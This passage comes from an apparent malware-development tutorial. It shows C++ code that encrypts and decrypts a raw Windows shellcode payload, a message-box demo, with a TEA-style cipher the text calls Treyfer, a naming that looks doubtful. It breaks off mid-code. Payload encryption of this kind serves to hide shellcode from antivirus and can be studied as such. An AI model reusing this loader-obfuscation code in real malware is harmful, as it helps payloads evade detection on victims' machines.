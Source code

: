 *Second Half Update (v1):* `v1` is updated similarly, but the indices into the key depend on `(sum >> 11) & 3`.    

After the loop, the encrypted values of `v0` and `v1` are stored back into the `data` array.    

The next function is decryption logic. The Treyfer decryption function reverses the encryption process by performing the inverse operations in reverse order.     

```cpp
void treyfer_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int v0 = *(unsigned int *)data;           // Load first 32 bits of the block
  unsigned int v1 = *(unsigned int *)(data + 4);    // Load second 32 bits of the block
  unsigned int sum = 0x9e3779b9 * ROUNDS;           // Initialize sum for rounds (start from max sum)
  unsigned int delta = 0x9e3779b9;                  // Constant delta for the algorithm

  for (int i = 0; i < ROUNDS; i++) {                // Perform 32 rounds of decryption
    v1 -= ((v0 << SHIFT) ^ (v0 >> (32 - SHIFT))) + v0 + sum + ((unsigned int *)key)[(sum >> 11) & 3];
    sum -= delta;                                   // Decrement the sum by delta
    v0 -= ((v1 << SHIFT) ^ (v1 >> (32 - SHIFT))) + v1 + sum + ((unsigned int *)key)[sum & 3];
  }

  *(unsigned int *)data = v0;                       // Store decrypted first 32 bits
  *(unsigned int *)(data + 4) = v1;                 // Store decrypted second 32 bits
}
```

*Decryption loop*: The loop runs for `32` rounds in reverse, undoing the encryption process.     

After the loop, the decrypted values of `v0` and `v1` are stored back into the `data` array.    

Finally, putting it all together in `main`:     

```cpp
int main() {
  unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int len = sizeof(my_payload);
  int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

  unsigned char padded[pad_len];
```